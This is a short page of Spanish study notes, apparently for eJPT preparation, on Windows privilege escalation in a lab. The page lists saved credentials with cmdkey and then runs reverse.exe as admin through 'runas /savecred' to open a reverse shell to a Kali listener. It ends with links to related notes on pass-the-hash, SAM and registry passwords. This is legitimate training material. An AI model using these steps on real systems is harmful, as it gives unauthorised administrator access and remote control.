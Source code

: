 
- Enumere las credenciales guardadas:

```
cmdkey /list
```
Tenga en cuenta que las credenciales para el usuario "admin" se guardan. Si no lo son, ejecute el script C:\PrivEsc\savecred.bat para actualizar las credenciales guardadas.

- Inicie un oyente en Kali y ejecute el ejecutable reverse.exe usando runas con las credenciales guardadas del usuario administrador:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Passing the Hash]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Registry]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Passwords - Security Account Manager (SAM)]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]

